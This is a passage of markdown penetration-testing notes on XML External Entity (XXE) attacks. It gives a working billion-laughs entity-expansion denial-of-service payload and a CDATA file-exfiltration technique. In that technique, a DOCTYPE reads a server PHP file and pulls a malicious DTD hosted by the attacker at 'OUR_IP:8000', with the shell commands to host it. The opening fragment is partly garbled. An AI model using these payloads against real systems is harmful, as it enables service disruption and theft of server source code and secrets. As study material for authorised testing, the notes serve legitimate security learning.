 ```xml
<name></name>
<tel></tel>
<email>&company;</email>
<message></message>
</root>
```
* Need the `except module` to be enabled.
* `$IFS` avoid breaking the XML
## Other Attacks 
#### Denial Of service 
```xml
<?xml version="1.0"?>
<!DOCTYPE email [
  <!ENTITY a0 "DOS" >
  <!ENTITY a1 "&a0;&a0;&a0;&a0;&a0;&a0;&a0;&a0;&a0;&a0;">
  <!ENTITY a2 "&a1;&a1;&a1;&a1;&a1;&a1;&a1;&a1;&a1;&a1;">
  <!ENTITY a3 "&a2;&a2;&a2;&a2;&a2;&a2;&a2;&a2;&a2;&a2;">
  <!ENTITY a4 "&a3;&a3;&a3;&a3;&a3;&a3;&a3;&a3;&a3;&a3;">
  <!ENTITY a5 "&a4;&a4;&a4;&a4;&a4;&a4;&a4;&a4;&a4;&a4;">
  <!ENTITY a6 "&a5;&a5;&a5;&a5;&a5;&a5;&a5;&a5;&a5;&a5;">
  <!ENTITY a7 "&a6;&a6;&a6;&a6;&a6;&a6;&a6;&a6;&a6;&a6;">
  <!ENTITY a8 "&a7;&a7;&a7;&a7;&a7;&a7;&a7;&a7;&a7;&a7;">
  <!ENTITY a9 "&a8;&a8;&a8;&a8;&a8;&a8;&a8;&a8;&a8;&a8;">        
  <!ENTITY a10 "&a9;&a9;&a9;&a9;&a9;&a9;&a9;&a9;&a9;&a9;">        
]>
<root>
<name></name>
<tel></tel>
<email>&a10;</email>
<message></message>
</root>
```
## Advanced File Disclosure 
### Advanced Ex filtration with CDATA
* Data that does not conform with to an XML format needs to be wrapped with a `CDATA` tag
* Ensures the XML interprets it as RAW data.
* `<![CDATA[CONTENT]]>`

```shell 
echo '<!ENTITY joined "%begin;%file;%end;">' > xxe.dtd
python3 -m http.server 8000
```

```xml
<!DOCTYPE email [
  <!ENTITY % begin "<![CDATA[">
  <!ENTITY % file SYSTEM "file:///var/www/html/submitDetails.php">
  <!ENTITY % end "]]>">
  <!ENTITY % xxe SYSTEM "http://OUR_IP:8000/xxe.dtd">
  %xxe;
]>
```
**XML prevents internal and external joining as such if we reference them from an external source we can join them**
This often require converting to base64
